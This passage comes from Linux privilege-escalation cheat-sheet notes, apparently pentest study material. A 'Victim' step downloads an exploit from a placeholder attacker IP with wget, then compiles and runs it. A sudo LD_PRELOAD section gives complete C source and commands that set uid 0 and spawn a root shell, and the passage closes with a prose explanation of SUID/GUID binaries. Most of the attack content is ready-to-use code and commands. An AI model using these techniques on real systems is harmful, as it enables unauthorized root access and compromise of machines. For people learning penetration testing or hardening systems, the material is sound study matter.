 Victim

```
wget http://<attacker_ip>:9000/expliot.c
Compile expliot.c: gcc expliot.c -o expliot
./expliot
id && whoami 
```

# Sudo LD_PRELOAD

sudo -l 

Example Output: env_reset, env_keep+=LD_PRELOAD // Do you have the same output with sudo binary rights?

Expliot

```

cd /tmp
vi priv.c
   
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Compile priv.c: gcc -fPIC -shared -o priv.so priv.c -nostartfiles
Command: sudo LD_PRELOAD=/tmp/priv.so awk // awk can be replaced with any sudo binary
```

# SUID / GUID Binaries Overview


SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 

Basically, you can change the permission of any file either using the “Numerical” method or “Symbolic” method. As result, it will replace x from s as shown in the below image which denotes especial execution permission with the higher privilege to a particular file/command. Since we are enabling SUID for Owner (user) therefore bit 4 or symbol s will be added before read/write/execution operation.
Basic Enumeration

GUID permission is similar to the SUID permission, only difference is – when the script or command with SGID on is run, it runs as if it were a member of the same group in which the file is a member
